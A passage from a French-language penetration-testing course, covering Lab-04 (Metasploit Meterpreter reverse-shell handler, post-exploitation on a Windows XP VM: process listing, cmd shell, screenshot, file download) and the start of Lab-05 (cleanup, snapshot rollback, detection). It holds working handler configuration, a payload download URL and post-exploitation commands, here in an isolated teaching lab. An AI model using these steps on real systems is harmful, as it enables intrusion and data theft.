| `sha256sum`, `sed` | `sha256sum`, `sed -n` | Vérifier et lire les preuves locales |

### Commande et laboratoire étape par étape

#### Étape 1 — Rouvrir une session Meterpreter

**But** — démarrer un handler stageless sur le port 4444 et obtenir une nouvelle session Meterpreter.

**Machine** — Kali `192.168.56.101`, terminal 2 ; Windows XP `192.168.56.104` pour l'exécution.

**Prérequis** — payload `windows_xp_stageless.exe` encore présent dans `C:\Temp` ou téléchargeable depuis Apache, port 4444 libre, fonction `prouve` chargée.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

Créer et lancer le handler :

```bash
mkdir -p preuves/ch2-lab04
cat > preuves/ch2-lab04/handler-lab04.rc <<'RC'
spool preuves/ch2-lab04/session-lab04.txt
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
set ExitOnSession false
exploit -j
RC
prouve preuves/ch2-lab04/handler-lab04-rc.txt cat preuves/ch2-lab04/handler-lab04.rc
msfconsole -q -r preuves/ch2-lab04/handler-lab04.rc
```

Sur Windows XP, exécuter le payload :

```text
C:\Temp\windows_xp_stageless.exe
```

**Explication de la commande**

- `mkdir -p preuves/ch2-lab04` : crée le dossier de preuves du lab.
- `cat > ... <<'RC'` : écrit le fichier de ressources. Le contenu est identique à celui du Lab-03, avec un transcript différent.
- `spool preuves/ch2-lab04/session-lab04.txt` : enregistre toute la console dans le transcript du Lab-04.
- `set PAYLOAD windows/meterpreter_reverse_tcp` : handler stageless, cohérent avec l'exécutable.
- `set LPORT 4444` : port du payload stageless.
- `exploit -j` : lance le handler en tâche de fond. L'invite peut afficher `msf6 >` ou `msf6 exploit(multi/handler) >` selon la version ; les commandes sont identiques.
- Le payload stageless ne déclenche pas de message `Sending stage` ; la session s'ouvre directement après la connexion inverse.
- Sur Windows XP, l'exécution du même fichier crée un nouveau processus et une nouvelle connexion inverse.
- Piège : si le fichier a été supprimé de `C:\Temp`, retéléchargez-le depuis `http://192.168.56.101/payloads/windows_xp_stageless.exe` avant de l'exécuter.

**Résultat attendu**

```text
[*] Started reverse TCP handler on 192.168.56.101:4444
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.104:1033) at ...
msf6 >
```

**Preuve** — transcript en cours `preuves/ch2-lab04/session-lab04.txt`.

#### Étape 2 — Identifier la cible et le processus

**But** — confirmer l'identité de la machine, le compte d'exécution et le PID du processus Meterpreter.

**Machine** — Kali `192.168.56.101`, terminal 2, console Metasploit.

**Prérequis** — session ouverte dans la console Metasploit, invite `msf6 >` ou `msf6 exploit(multi/handler) >`.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```text
sessions -i 1
sysinfo
getuid
getpid
```

**Explication de la commande**

- `sessions -i 1` : ouvre la session numéro 1. L'invite devient `meterpreter >`.
- `sysinfo` : affiche le nom de la machine, la version de Windows, l'architecture, la langue, le domaine, le nombre d'utilisateurs connectés et la version de Meterpreter.
- `getuid` : affiche le compte sous lequel le processus du payload s'exécute.
- `getpid` : affiche l'identifiant du processus Meterpreter sur Windows XP. Ce PID sera retrouvé dans la liste des processus à l'étape 3.
- Piège : `getuid` ne signifie pas que le compte est administrateur. Il indique seulement le compte d'exécution. Aucune élévation de privilèges n'est réalisée dans ce lab.

**Résultat attendu**

```text
meterpreter > sysinfo
Computer        : WINXP
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WINXP\win
meterpreter > getpid
Current pid: 1234
```

Le PID exact varie à chaque exécution.

**Preuve** — `preuves/ch2-lab04/session-lab04.txt`.

#### Étape 3 — Lister les processus

**But** — retrouver le processus du payload et observer les processus de la session utilisateur.

**Machine** — Kali `192.168.56.101`, terminal 2, dans la session Meterpreter.

**Prérequis** — PID du payload relevé à l'étape 2.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```text
ps
```

**Explication de la commande**

- `ps` : liste les processus de Windows XP avec leur PID, leur nom, leur utilisateur, leur session et leur chemin.
- Le processus dont le PID correspond à `getpid` est le processus Meterpreter. Son nom doit correspondre à l'exécutable, par exemple `windows_xp_stageless.exe`.
- `explorer.exe` est le shell graphique de la session utilisateur. Sa présence confirme qu'un bureau Windows est actif, ce qui rend `screenshot` possible.
- `svchost.exe`, `lsass.exe` et `services.exe` sont des processus système normaux. Ne les arrêtez pas.
- Piège : `ps` peut tronquer les chemins longs. Utilisez le PID et le nom pour identifier le payload, pas seulement le chemin.

**Résultat attendu**

```text
meterpreter > ps

Process List
============

 PID   Name                       Arch  Session  User              Path
 ---   ----                       ----  -------  ----              ----
 1234  windows_xp_stageless.exe   x86   0        WINXP\win         C:\Temp\windows_xp_stageless.exe
 456   explorer.exe               x86   0        WINXP\win         C:\WINDOWS\explorer.exe
 788   svchost.exe                x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\svchost.exe
 ...
```

Le PID `1234` est un exemple. Le PID réel est celui affiché par `getpid`.

**Preuve** — `preuves/ch2-lab04/session-lab04.txt`.

#### Étape 4 — Parcourir le système de fichiers

**But** — localiser le répertoire courant, lister la racine et le profil de l'utilisateur `win`.

**Machine** — Kali `192.168.56.101`, terminal 2, dans la session Meterpreter.

**Prérequis** — session Meterpreter active.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```text
pwd
ls
cd C:\
ls
cd "C:\Documents and Settings\win"
ls
```

**Explication de la commande**

- `pwd` : affiche le répertoire courant du processus Meterpreter. Après l'exécution depuis `C:\Temp`, il s'agit souvent de `C:\Temp` ou du répertoire de l'exécutable.
- `ls` : liste les fichiers et dossiers du répertoire courant.
- `cd C:\` : change de répertoire pour la racine du disque système.
- `cd "C:\Documents and Settings\win"` : change pour le profil de l'utilisateur. Les guillemets sont nécessaires à cause des espaces dans `Documents and Settings`.
- Le second `ls` liste le contenu du profil : `Desktop`, `Favorites`, `My Documents`, etc.
- Piège : Meterpreter accepte `C:\` et `C:/`, mais pas `C:` seul pour désigner la racine. Utilisez `C:\` ou `C:/`.

**Résultat attendu**

```text
meterpreter > pwd
C:\Temp
meterpreter > ls
Listing: C:\Temp
================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100666/rw-rw-rw-  206848  fil   ...                        windows_xp_stageless.exe
...
meterpreter > cd C:\
meterpreter > ls
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
...               ...     dir   ...                        Documents and Settings
...               ...     dir   ...                        WINDOWS
...               ...     fil   ...                        boot.ini
...
meterpreter > cd "C:\Documents and Settings\win"
meterpreter > ls
Listing: C:\Documents and Settings\win
======================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
...               ...     dir   ...                        Desktop
...               ...     dir   ...                        Favorites
...               ...     dir   ...                        My Documents
...
```

**Preuve** — `preuves/ch2-lab04/session-lab04.txt`.

#### Étape 5 — Ouvrir un shell et exécuter des commandes Windows

**But** — prouver l'exécution de commandes natives dans un shell `cmd.exe` sur Windows XP.

**Machine** — Kali `192.168.56.101`, terminal 2, dans la session Meterpreter.

**Prérequis** — session Meterpreter active.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```text
shell
echo %USERNAME%
hostname
ipconfig /all
systeminfo
exit
```

**Explication de la commande**

- `shell` : ouvre un canal `cmd.exe` dans la session Meterpreter. L'invite devient celle de Windows XP.
- `echo %USERNAME%` : affiche le compte courant. Sur Windows XP, `whoami` n'est pas toujours installé ; cette commande est le repli fiable.
- `hostname` : affiche le nom NetBIOS de la machine.
- `ipconfig /all` : affiche la configuration complète des interfaces réseau, y compris l'adresse `192.168.56.104`.
- `systeminfo` : affiche les informations du système d'exploitation, le Service Pack, le fabricant et la mémoire. Sur certaines éditions de Windows XP, `systeminfo` peut être absent ; utilisez `ver` comme repli.
- `exit` : ferme le shell et rend l'invite `meterpreter >`.
- Piège : les commandes Meterpreter (`sysinfo`, `getuid`, `download`) ne fonctionnent pas dans le shell `cmd.exe`. Inversement, `echo %USERNAME%` n'est pas une commande Meterpreter.

**Résultat attendu**

```text
meterpreter > shell
Process 1240 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Temp>echo %USERNAME%
win

C:\Temp>hostname
WINXP

C:\Temp>ipconfig /all

Windows IP Configuration

        Host Name . . . . . . . . . . . . : WINXP
        Primary Dns Suffix  . . . . . . . :
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . :
        Description . . . . . . . . . . . : AMD PCNET Family PCI Ethernet Adapter
        Physical Address. . . . . . . . . : 08-00-27-...
        Dhcp Enabled. . . . . . . . . . . : No
        IP Address. . . . . . . . . . . . : 192.168.56.104
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . :

C:\Temp>systeminfo

Host Name:                 WINXP
OS Name:                   Microsoft Windows XP Professional
OS Version:                5.1.2600 Service Pack 3 Build 2600
...
C:\Temp>exit
meterpreter >
```

**Preuve** — `preuves/ch2-lab04/session-lab04.txt`.

#### Étape 6 — Prendre une capture d'écran

**But** — capturer le bureau Windows XP comme preuve visuelle de la session.

**Machine** — Kali `192.168.56.101`, terminal 2, dans la session Meterpreter.

**Prérequis** — session Meterpreter active, session graphique `explorer.exe` visible dans `ps`.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```text
screenshot
```

**Explication de la commande**

- `screenshot` : demande à Meterpreter de capturer l'écran de la session Windows XP et d'enregistrer l'image sur Kali.
- Le fichier est écrit dans `/home/kali/.msf4/logs/screenshots/` avec un nom horodaté et l'extension `.jpeg`.
- La capture prouve l'existence d'un bureau interactif et l'accès graphique au système.
- Piège : si aucun bureau n'est actif ou si le processus n'a pas accès à la session graphique, `screenshot` échoue. Vérifiez la présence de `explorer.exe` dans `ps`.
- Piège : la capture reste sur Kali. Elle ne doit pas être publiée hors du laboratoire.

**Résultat attendu**

```text
meterpreter > screenshot
Screenshot saved to: /home/kali/.msf4/logs/screenshots/20261117_1015_1234.jpeg
```

Le nom exact dépend de la date et du PID.

**Preuve** — fichier JPEG dans `/home/kali/.msf4/logs/screenshots/` ; il sera copié dans `preuves/ch2-lab04/` à l'étape 9.

#### Étape 7 — Télécharger `boot.ini`

**But** — transférer un fichier de configuration Windows XP vers Kali et conserver une preuve de lecture de fichier.

**Machine** — Kali `192.168.56.101`, terminal 2, dans la session Meterpreter.

**Prérequis** — session Meterpreter active, répertoire `preuves/ch2-lab04/` créé sur Kali.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```text
download C:/boot.ini preuves/ch2-lab04/boot.ini
```

**Explication de la commande**

- `download` : transfère un fichier depuis la cible vers Kali.
- `C:/boot.ini` : chemin du fichier de démarrage de Windows XP. Les slashs avant sont acceptés par Meterpreter.
- `preuves/ch2-lab04/boot.ini` : destination sur Kali, relative au répertoire `/home/kali`.
- Le fichier `boot.ini` contient la configuration du chargeur de démarrage. Il ne contient pas de secret, mais il prouve l'accès en lecture au disque système.
- Piège : si la destination existe déjà, Meterpreter peut refuser ou écraser selon la version. Supprimez l'ancien fichier si nécessaire.
- Piège : `boot.ini` peut ne pas exister sur une installation Windows XP particulière. Dans ce cas, téléchargez `C:/WINDOWS/win.ini` comme fichier de remplacement et notez la différence.

**Résultat attendu**

```text
meterpreter > download C:/boot.ini preuves/ch2-lab04/boot.ini
[*] Downloading: C:/boot.ini -> preuves/ch2-lab04/boot.ini
[*] Downloaded 211 bytes
[*] download complete
```

La taille exacte dépend du contenu de `boot.ini`.

**Preuve** — `preuves/ch2-lab04/boot.ini`.

#### Étape 8 — Fermer la session et le handler

**But** — refermer proprement la session Meterpreter et arrêter le handler avant de vérifier les fichiers.

**Machine** — Kali `192.168.56.101`, terminal 2, dans la session Meterpreter.

**Prérequis** — commandes de collecte terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```text
background
spool off
sessions -K
jobs -K
exit -y
```

**Explication de la commande**

- `background` : replace la session en arrière-plan et rend l'invite de la console (`msf6 >` ou `msf6 exploit(multi/handler) >`). Nécessaire pour exécuter les commandes de session depuis la console.
- `spool off` : ferme le transcript `session-lab04.txt`.
- `sessions -K` : ferme toutes les sessions.
- `jobs -K` : arrête le handler en tâche de fond.
- `exit -y` : quitte Metasploit.
- Piège : `spool off` depuis l'invite `meterpreter >` n'est pas une commande Meterpreter. Utilisez `background` d'abord.

**Résultat attendu**

```text
meterpreter > background
[*] Backgrounding session 1...
msf6 > spool off
[*] Spooling is now disabled
msf6 > sessions -K
[*] Killing all sessions...
msf6 > jobs -K
[*] Stopping all jobs...
msf6 > exit -y
```

**Preuve** — `preuves/ch2-lab04/session-lab04.txt` complet.

#### Étape 9 — Copier et vérifier les preuves locales

**But** — vérifier le fichier `boot.ini`, calculer son empreinte et copier la capture d'écran dans le dossier de preuves.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — session fermée, `preuves/ch2-lab04/boot.ini` téléchargé, capture d'écran présente dans `~/.msf4/logs/screenshots/`.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab04/verification-boot.txt bash -c '
  ls -lh preuves/ch2-lab04/boot.ini
  sha256sum preuves/ch2-lab04/boot.ini
  sed -n "1,10p" preuves/ch2-lab04/boot.ini
'
prouve preuves/ch2-lab04/screenshot-copie.txt bash -c '
  ls -t /home/kali/.msf4/logs/screenshots/*.jpeg
  cp "$(ls -t /home/kali/.msf4/logs/screenshots/*.jpeg | sed -n "1p")" preuves/ch2-lab04/screenshot-xp.jpeg
  ls -lh preuves/ch2-lab04/screenshot-xp.jpeg
'
```

**Explication de la commande**

- `ls -lh` : vérifie la présence et la taille de `boot.ini`.
- `sha256sum` : calcule l'empreinte du fichier téléchargé. Elle sert d'IOC et de preuve d'intégrité.
- `sed -n "1,10p"` : affiche les dix premières lignes du fichier sans le modifier.
- `ls -t .../*.jpeg` : liste les captures d'écran de la plus récente à la plus ancienne.
- `cp "$(ls -t ... | sed -n "1p")" preuves/ch2-lab04/screenshot-xp.jpeg` : copie la capture la plus récente sous un nom stable. La substitution de commande `$(...)` fournit le chemin.
- `ls -lh` final : confirme que la copie existe.
- Piège : si `ls -t` ne trouve aucun JPEG, `cp` échoue. Vérifiez que `screenshot` a réussi à l'étape 6 et que le répertoire `~/.msf4/logs/screenshots/` existe.

**Résultat attendu**

```text
-rw-r--r-- 1 kali kali 211 ... preuves/ch2-lab04/boot.ini
<sha256_boot_ini>  preuves/ch2-lab04/boot.ini
[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Professional" /noexecute=optin /fastdetect
-rw-r--r-- 1 kali kali 45K ... preuves/ch2-lab04/screenshot-xp.jpeg
```

Le contenu exact de `boot.ini` dépend de l'installation. Remplacez `<sha256_boot_ini>` par l'empreinte observée. L'empreinte et la taille de la capture varient.

**Preuve** — `preuves/ch2-lab04/verification-boot.txt` et `preuves/ch2-lab04/screenshot-xp.jpeg`.

#### Étape 10 — Rédiger la synthèse des découvertes

**But** — consigner dans un fichier unique les informations système, le compte, le processus et les fichiers collectés.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étapes 1 à 9 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
cat > preuves/ch2-lab04/synthese.md <<'EOF'
# Synthèse Lab-04

- Machine : WINXP
- Système : Windows XP Professional, Service Pack 3, x86
- Compte d'exécution : WINXP\win
- Processus du payload : windows_xp_stageless.exe
- Fichier téléchargé : boot.ini
- Capture d'écran : screenshot-xp.jpeg
- Preuve de session : session-lab04.txt
EOF
prouve preuves/ch2-lab04/synthese-preuve.txt cat preuves/ch2-lab04/synthese.md
```

**Explication de la commande**

- `cat > ... <<'EOF'` : écrit la synthèse dans un fichier Markdown. Le heredoc littéral évite toute substitution.
- Les champs reprennent les valeurs observées aux étapes 2 à 7. Adaptez le Service Pack et le nom du processus si votre image diffère.
- `prouve ... cat ...` : enregistre le contenu de la synthèse avec la date, la commande et le code retour.
- Piège : ne recopiez pas des valeurs non observées. Si `systeminfo` n'est pas disponible, notez `ver` comme source et laissez le Service Pack vide plutôt que d'inventer une valeur.

**Résultat attendu**

```text
# date: ...
# cmd: cat preuves/ch2-lab04/synthese.md
# Synthèse Lab-04

- Machine : WINXP
- Système : Windows XP Professional, Service Pack 3, x86
- Compte d'exécution : WINXP\win
- Processus du payload : windows_xp_stageless.exe
- Fichier téléchargé : boot.ini
- Capture d'écran : screenshot-xp.jpeg
- Preuve de session : session-lab04.txt
# rc=0
```

**Preuve** — `preuves/ch2-lab04/synthese.md` et `preuves/ch2-lab04/synthese-preuve.txt`.

### En conclusion

Le Lab-04 a exploité la session Meterpreter pour identifier la cible, lister les processus, parcourir le système de fichiers, exécuter un shell `cmd.exe`, capturer l'écran et télécharger `boot.ini`. Les preuves couvrent à la fois l'accès, l'identité, le système et les fichiers.

Points à retenir :

- `sysinfo` et `getuid` identifient la machine et le compte, mais ne prouvent pas les privilèges administratifs ;
- `ps` permet de retrouver le processus du payload par son PID ;
- `pwd`, `ls` et `cd` suffisent à parcourir les répertoires accessibles au compte `win` ;
- `shell` ouvre un `cmd.exe` où les commandes Meterpreter ne fonctionnent pas ;
- `screenshot` et `download` produisent des preuves conservées après le rollback ;
- la session et le handler sont fermés avant le nettoyage du Lab-05.

Critères de réussite :

- `session-lab04.txt` contient `sysinfo`, `getuid`, `getpid`, `ps`, les commandes de fichiers, le shell et les commandes Windows ;
- `boot.ini` existe dans `preuves/ch2-lab04/` avec son empreinte ;
- `screenshot-xp.jpeg` existe dans `preuves/ch2-lab04/` ;
- `synthese.md` reprend les valeurs observées ;
- aucun processus `msfconsole` ne reste actif après l'étape 8.

Le Lab-05 supprime les artefacts, restaure le snapshot `WinXP`, analyse les journaux et le PCAP, puis produit les règles de détection et les IOC.

## Lab-05 — Nettoyage, rollback et détection

### Énoncé / Contexte

Ce dernier lab supprime les payloads de Windows XP et de Kali, restaure le snapshot `WinXP`, vérifie le retour à l'état sain, analyse le journal Apache et la capture réseau, puis produit les IOC et les règles de détection. Il transforme les preuves offensives en éléments de défense.

**Place dans la chaîne** — après la collecte de preuves (Lab-04), en clôture du chapitre. Le rollback est obligatoire avant de quitter le laboratoire.

**Objectifs pédagogiques** — à la fin de ce lab, vous devez être capable de :

- vérifier qu'aucune session ni handler ne reste actif ;
- supprimer les exécutables de Windows XP et du serveur Kali ;
- restaurer le snapshot `WinXP` et vérifier l'état sain de la VM ;
- analyser les journaux Apache et le PCAP pour extraire les traces de la chaîne payload ;
- rédiger une table d'IOC et deux règles de détection ;
- expliquer les limites de la détection sur Windows XP et les mesures de mitigation.

**Périmètre et sécurité** — le nettoyage supprime uniquement les artefacts créés dans ce chapitre. Les preuves conservées dans `preuves/` ne sont pas supprimées. Le rollback replace Windows XP dans l'état du snapshot `WinXP`. Aucune autre VM n'est modifiée.

**Critères de réussite** — aucun processus `msfconsole` ni port de handler ne reste actif, `C:\Temp` ne contient plus de payload après le rollback, la VM redémarre en `192.168.56.104`, les quatre URL de payload répondent `404`, le journal Apache et le PCAP contiennent les traces attendues, et les fichiers `ioc.md`, `regle-sigma.yml`, `regle-suricata.rules` et `detection.md` sont présents.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `ps`, `ss` | `ps -eo ...`, `ss -ltnp` | Vérifier les processus et ports résiduels |
| `del` | `del C:\Temp\*.exe` | Supprimer les payloads sur Windows XP |
| `VBoxManage` | `screenshotpng`, `poweroff`, `snapshot restore`, `startvm` | Capturer, arrêter, restaurer et redémarrer la VM |
| `rm` | `rm -f /var/www/payloads/*.exe` | Supprimer les payloads sur Kali |
| `curl` | `curl -s -o /dev/null -w '%{http_code}'` | Vérifier que les URL ne répondent plus |
| `grep` | `grep -E`, `grep -a` | Extraire les lignes utiles des journaux et du PCAP |
| `tcpdump` | `tcpdump -nn -r <pcap>` | Relire la capture réseau |
| `ruby` | `ruby -ryaml -e ...` | Valider la syntaxe YAML de la règle Sigma |

### Commande et laboratoire étape par étape

#### Étape 1 — Vérifier qu'aucune session ni handler ne reste actif

**But** — s'assurer que tous les handlers et toutes les sessions du Lab-03 et du Lab-04 sont fermés avant le nettoyage.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — Lab-04 terminé, sessions fermées avec `sessions -K` et `jobs -K`.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab05/etat-sessions.txt bash -c '
  ps -eo pid,comm,args | grep -E "[m]sfconsole" || echo "aucun processus msfconsole"
  ss -ltnp 2>/dev/null | grep -E ":(4444|4445|5555)\b" || echo "aucun port de handler en ecoute"
'
```

**Explication de la commande**

- `ps -eo pid,comm,args` : liste les processus avec leur PID, leur nom court et leur ligne de commande.
- `grep -E "[m]sfconsole"` : cherche les processus Metasploit. Les crochets empêchent `grep` de se trouver lui-même.
- `|| echo "aucun processus msfconsole"` : affiche un message si aucun processus n'est trouvé.
- `ss -ltnp` : liste les sockets TCP en écoute avec les numéros de port et, si les permissions le permettent, le processus associé.
- `grep -E ":(4444|4445|5555)\b"` : filtre les ports des trois handlers. `\b` impose une limite de mot pour éviter de confondre `4444` avec `44440`.
- `2>/dev/null` : masque les avertissements de permission de `ss` pour les processus d'autres utilisateurs.
- Piège : si un processus `msfconsole` reste actif, arrêtez-le avec `pkill -f msfconsole` après avoir vérifié qu'il s'agit bien de votre session. Ne tuez pas un processus Metasploit appartenant à un autre laboratoire.

**Résultat attendu**

```text
aucun processus msfconsole
aucun port de handler en ecoute
```

**Preuve** — `preuves/ch2-lab05/etat-sessions.txt`.

#### Étape 2 — Supprimer les payloads de Windows XP

**But** — supprimer les trois exécutables déposés dans `C:\Temp` et capturer l'état du répertoire avant le rollback.

**Machine** — Windows XP `192.168.56.104` pour la suppression ; hôte VirtualBox pour la capture d'écran.

**Prérequis** — sessions fermées, VM Windows XP démarrée, session graphique ouverte.

> **Machine** : Windows XP `192.168.56.104` | **Terminal** : `cmd.exe` | **Utilisateur** : `win` | **Répertoire** : `C:\Temp`

**Exemple de commande**

Dans `cmd.exe` sur Windows XP :

```text
del C:\Temp\windows_xp_stageless.exe
del C:\Temp\windows_xp_staged.exe
del C:\Temp\windows_xp_shell.exe
dir C:\Temp
```

Puis, sur l'hôte :

```bash
mkdir -p preuves/ch2-lab05
{
  printf '# date: %s\n# cmd: %s\n' "$(date -Is)" "VBoxManage controlvm WinXp screenshotpng preuves/ch2-lab05/nettoyage-xp.png"
  VBoxManage controlvm WinXp screenshotpng preuves/ch2-lab05/nettoyage-xp.png
  printf '# rc=%d\n' "$?"
} 2>&1 | tee preuves/ch2-lab05/nettoyage-xp.txt
```

**Explication de la commande**

- `del C:\Temp\windows_xp_stageless.exe` : supprime le fichier. `del` ne passe pas par la corbeille et ne demande pas de confirmation.
- Les deux `del` suivants suppriment les variantes staged et shell.
- `dir C:\Temp` : vérifie le contenu restant. Aucun fichier `.exe` du chapitre ne doit apparaître.
- `VBoxManage controlvm WinXp screenshotpng ...` : capture l'écran de la VM en cours d'exécution et l'enregistre au format PNG. Cette capture prouve la sortie de `dir`.
- Le groupe `{ ... }` ajoute la date, la commande et le code retour à la preuve.
- Piège : si un fichier est encore verrouillé par un processus, `del` échoue avec `Access is denied`. Fermez d'abord la session Meterpreter et vérifiez avec `tasklist` qu'aucun processus `windows_xp_*.exe` ne reste actif.
- Piège : `del C:\Temp\*.exe` supprimerait aussi d'autres exécutables présents dans `C:\Temp`. Les commandes nomment chaque fichier pour rester précises.

**Résultat attendu**

```text
C:\Temp>dir C:\Temp
 Volume in drive C has no label.
 Volume Serial Number is ...

 Directory of C:\Temp

...          <DIR>          .
...          <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)   ...
```

La capture `nettoyage-xp.png` montre la sortie de `dir` sans les fichiers `.exe`.

**Preuve** — `preuves/ch2-lab05/nettoyage-xp.png` et `preuves/ch2-lab05/nettoyage-xp.txt` sur l'hôte.

#### Étape 3 — Supprimer les payloads du serveur Kali

**But** — retirer les exécutables et le fichier de test de `/var/www/payloads` après conservation des empreintes.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — empreintes du Lab-02 conservées dans `preuves/ch2-lab02/comparaison.txt`.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab05/suppression-payloads.txt bash -c '
  ls -lh /var/www/payloads/
  rm -f /var/www/payloads/windows_xp_stageless.exe \
        /var/www/payloads/windows_xp_staged.exe \
        /var/www/payloads/windows_xp_shell.exe \
        /var/www/payloads/windows_xp_encoded.exe \
        /var/www/payloads/test.txt
  ls -la /var/www/payloads/
'
```

**Explication de la commande**

- `ls -lh` : affiche les fichiers présents avant suppression.
- `rm -f` : supprime sans demander de confirmation. `-f` ignore les fichiers absents et ne renvoie pas d'erreur.
- Les chemins sont nommés un par un pour éviter de supprimer un fichier ajouté par un autre lab.
- `ls -la` : vérifie qu'il ne reste que `.` et `..`.
- Piège : ne supprimez pas le répertoire `/var/www/payloads` lui-même. Apache et les labs suivants peuvent le réutiliser.
- Piège : les empreintes SHA-256 du Lab-02 sont la seule trace des fichiers après suppression. Ne supprimez pas `preuves/ch2-lab02/`.

**Résultat attendu**

```text
total 0
drwxr-xr-x 2 kali kali 4096 ... .
drwxr-xr-x 3 root root 4096 ... ..
```

**Preuve** — `preuves/ch2-lab05/suppression-payloads.txt`.

#### Étape 4 — Restaurer le snapshot Windows XP

**But** — revenir à l'état sain enregistré dans le snapshot `WinXP`.

**Machine** — hôte VirtualBox.

**Prérequis** — Windows XP arrêté ou prêt à être arrêté, snapshot `WinXP` présent, preuves copiées sur l'hôte.

> **Machine** : hôte VirtualBox | **Terminal** : terminal de l'hôte | **Utilisateur** : votre compte utilisateur | **Répertoire** : racine du dépôt

**Exemple de commande**

```bash
VBoxManage controlvm WinXp poweroff 2>/dev/null || true
{
  printf '# date: %s\n# cmd: %s\n' "$(date -Is)" "VBoxManage snapshot WinXp restore WinXP"
  VBoxManage snapshot WinXp restore WinXP
  printf '# rc=%d\n' "$?"
} 2>&1 | tee preuves/ch2-lab05/rollback.txt
```

**Explication de la commande**

- `VBoxManage controlvm WinXp poweroff` : arrête brutalement la VM. Cette commande est réservée au laboratoire : elle ne permet pas à Windows XP de fermer proprement ses fichiers.
- `2>/dev/null` : masque l'erreur si la VM est déjà arrêtée.
- `|| true` : poursuit la séquence même si `poweroff` échoue, par exemple lorsque la VM est déjà éteinte.
- `VBoxManage snapshot WinXp restore WinXP` : restaure le snapshot nommé `WinXP` de la VM `WinXp`. La VM doit être arrêtée.
- Le groupe `{ ... }` enregistre la date, la commande et le code retour dans `rollback.txt`.
- Piège : une restauration sur une VM en cours d'exécution échoue. Arrêtez la VM avant.
- Piège : le rollback supprime les fichiers créés dans la VM depuis le snapshot. Les preuves doivent déjà être sur l'hôte ou sur Kali.

**Résultat attendu**

```text
Restoring snapshot 'WinXP' (c1b24f63-...)
0%...10%...20%...30%...40%...50%...60%...70%...80%...90%...100%
# rc=0
```

**Preuve** — `preuves/ch2-lab05/rollback.txt`.

#### Étape 5 — Redémarrer et vérifier l'état sain

**But** — confirmer que Windows XP redémarre, retrouve l'adresse `192.168.56.104` et ne contient plus les payloads.

**Machine** — hôte VirtualBox pour le démarrage et la capture ; Windows XP pour `ipconfig` et `dir` ; Kali pour le ping.

**Prérequis** — snapshot restauré.

> **Machine** : hôte VirtualBox | **Terminal** : terminal de l'hôte | **Utilisateur** : votre compte utilisateur | **Répertoire** : racine du dépôt

**Exemple de commande**

Sur l'hôte, démarrer la VM :

```bash
{
  printf '# date: %s\n# cmd: %s\n' "$(date -Is)" "VBoxManage startvm WinXp"
  VBoxManage startvm WinXp
  printf '# rc=%d\n' "$?"
} 2>&1 | tee preuves/ch2-lab05/demarrage-post-rollback.txt
```

Sur Windows XP, après connexion, ouvrir `cmd.exe` et exécuter :

```text
ipconfig
dir C:\Temp
```

Puis, sur l'hôte, capturer l'écran :

```bash
VBoxManage controlvm WinXp screenshotpng preuves/ch2-lab05/post-rollback.png
```

Enfin, sur Kali :

```bash
prouve preuves/ch2-lab05/ping-post-rollback.txt ping -c 3 192.168.56.104
```

**Explication de la commande**

- `VBoxManage startvm WinXp` : démarre la VM avec son interface graphique.
